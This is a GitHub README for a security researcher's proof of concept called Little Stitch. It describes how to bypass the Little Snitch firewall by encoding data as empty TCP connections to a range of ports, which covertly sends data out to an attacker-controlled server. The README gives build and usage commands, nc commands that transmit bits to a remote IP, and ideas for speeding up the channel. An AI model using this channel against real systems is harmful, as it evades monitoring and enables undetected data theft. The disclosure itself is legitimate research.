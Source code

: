 # Little Stitch

Bypassing Little Snitch Firewall with Empty TCP Packets. The post that goes alongside this PoC on the [Rhino Security Labs Blog](https://rhinosecuritylabs.com/network-security/bypassing-little-snitch-firewall).

## Demo

https://user-images.githubusercontent.com/4079939/146304055-ddcbd09f-0379-4c49-af65-cb2de9fa979e.mov

## Usage

### Install

```
tag=$(curl -s https://api.github.com/repos/RhinoSecurityLabs/little-stitch/releases/latest|jq -r '.tag_name'|tr -d 'v')
curl -L "https://github.com/RhinoSecurityLabs/little-stitch/releases/download/v${tag}/little-stitch_${tag}_$(uname -s)_$(uname -m).tar.gz" \
    | tar -xzf - -C /usr/local/bin/ little-stitch
```

### Build

Make sure a recent version of GoLang is installed and set up (tested with golang 1.17.2).

```
go build -o little-stitch main.go
```


### Server

Currently, this PoC does not differentiate between clients so you'll likely want a firewall setup allowing ports
11100-11300 only from the client IP address. Other clients connecting to these ports while the server running
will change the output.

```
echo 'hello from server' | ./little-stitch server
```

### Client

You'll want to start the server before the client, you may get unexpected results if you start the client first.

```
echo 'hello from client' | ./little-stitch client <server ip address>
```

## Bypassing Little Snitch Firewall with Empty TCP Packets

Little Snitch does not trigger an alert when a TCP connection is established but instead is triggered
when application data is sent across the connection. So if you set up a TCP connection and immediately close it,
before sending any data across it, an alert will not be triggered by Little Snitch.

You can test this without installing anything on your computer with the nc command.

Note: For unknown reasons, Little Snitch alerting seems to be inconsistent when netcat is used like this. If you
are getting alerts with the following commands you may have more success with the PoC, which is more reliable.

```
% nc -G 2 -vz 1.1.1.1 80
Connection to 1.1.1.1 port 80 [tcp/http] succeeded!
% nc -G 2 -vz 1.1.1.1 81
nc: connectx to 1.1.1.1 port 81 (tcp) failed: Operation timed out
```

While we aren't sending any data across the connection, this behavior alone is enough to enable two-way
communications between a server and a client running behind Little Snitch without being detected.

## Implementation Details

For exfiling data to an attacker-controlled server, instead of sending data across the TCP connection as
application data, we want to encode our data as attributes of the TCP/IP connection. These attributes should
be modifiable by an underprivileged user, and be readable by the server without affecting routing.

There are several attributes of a TCP connection that fill these requirements, however the most
straightforward is the destination port number, and whether a connection is opened or not. If we
are trying to send a byte at a time to the server we can use a range of 8 destination ports each
representing a bit in the current byte. We can then have an initiated connection represent a one while
doing nothing represents a zero, so essentially whether a connection is opened or not in the current
cycle represents a single bit. Once we have made all the connections needed we can then send a connection
to a ninth port, indicating to the server the current cycle is complete.

We can run through this manually to get a better idea of what is happening here by just running the server-side
of the connection and using `nc` to open the connections which will set (poke) the bits on the server.

```
./little-stitch server
```

With the server running we can take a look at the bit's needed to represent an ASCII `A`.

```
$ echo -n 'A' | xxd -b
00000000: 01000001                                               A
```

From the output of `xxd` we can see, if we are counting from right to left (assuming you are using a little-endian
system) bits 1 and 7 are set. So to print an 'A' we'll want to poke ports 11101 and 11107, following up with a 11100
to flush the byte to stdout.

```
% nc -vz 34.125.141.146 11101
Connection to 34.125.141.146 port 11101 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11107
Connection to 34.125.141.146 port 11107 [tcp/*] succeeded!
% nc -vz 34.125.141.146 11100
Connection to 34.125.141.146 port 11100 [tcp/*] succeeded!
```

If we look at the server we'll see the following.

```
$ ./little-stitch
A
```

Sending data the other direction isn't as simple since we can't send data directly from the server to the client, which will
most likely be on a network restricted with NAT. So instead of poking ports when we need to represent the value of a
given bit, we'll instead open the ports on the server corresponding to the set bits of the current byte. The client can
then iterate over these ports and record whether they were opened or closed to determine the value of the current byte.
In the demo we can see that this is slower than sending data to the server, this is because the client has more ports
overall to check (currently this is unoptimized, and closing the connection eats up a fair amount of time) and because
the server and the client need to be more careful about remaining in sync during this process.

## Transfer Speed

This unoptimized proof of concept is very low bandwidth, based on observations it appears to be able to upload at about 16 bit/s
and download at about 8 bit/s. Currently, the majority of time is spent waiting on TCP connections to close and because everything is run
serialized this ends up slowing things down quite a bit. Listed below are a few possible optimizations along with the estimated
speed up (these are very rough, and may not even work as expected, so take this with a grain of salt).

* Encoding data in the source port.
  * Estimated speed up: 2x
* Use the whole port range for data e.g. open port 65 to represent ascii character 'A'.
  * Suggested by [@arkadiyt](https://twitter.com/arkadiyt), thanks! Not really sure why I decided to do it this way in the first
    place, I guess it worked so I kept it. But thinking this would actually make things a bit simpler as well.
  * Estimated speed up: a lot?
* Use NFQUEUE on the server to read Syn packets sent by the client without opening a full TCP connection.
  * Estimated speed up: 5x, maybe more, at the cost of reliable transfers. This is because each connection needs to
    go through the full TCP handshake and teardown process. This results in 5 packets per connection (SYN, SYN/ACK, ACK, client
    FIN/ACK, server FIN/ACK).
* Parallelizing data transfer and compression.
  * Estimated speed up: ?
* Use TCP OOB flag for data.
  * Estimated speed up: 1 bit per connection.
* Use TCP Urgent flag for data.
  * Estimated speed up: 1 bit per connection.


## What's with the Little Stitch name?

Snitch sounds like stitch, and little-stitch reminds me of Stitch Face, which is Peach's ultimate turnip in Smash Bro's Melee. Anyways, since
you seem to be so interested in Peach's turnips now, the rest of this README is about them.

Peaches turnips come in many variations and typically do 2%-10% damage when thrown. The Stitch Face Turnip is unique however, it is one of the
two rarest turnips in the game with only a 1.711% chance of appearing with each pull. What puts it apart from the other turnips isn't its
rarity however, it's the punch it packs at 34% damage, making it the most powerful item that is legal in tournament play.

Turnip Tip: after you throw it and it hits your opponent try recatching it by jumping and pressing Z when the turnip bounces back and passes
through peaches body onscreen.

### Turnip Stats

| Turnip Name | Damage      | Probability |
| ----------- | ----------- |-------------|
| Normal      | 6 %         | 59.873 %    |
| Eybrow Eyes | 6 %         | 10.264 %    |
| Line Eyes   | 6 %         | 8.553 %     |
| Circle Eyes | 6 %         | 5.132 %     |
| Carrot Eyes | 6 %         | 5.132 %     |
| Wink        | 10 %        | 6.843 %     |
| Dot Eyes    | 16 %        | 1.711 %     |
| Stitch Face | 34 %        | 1.711 %     |
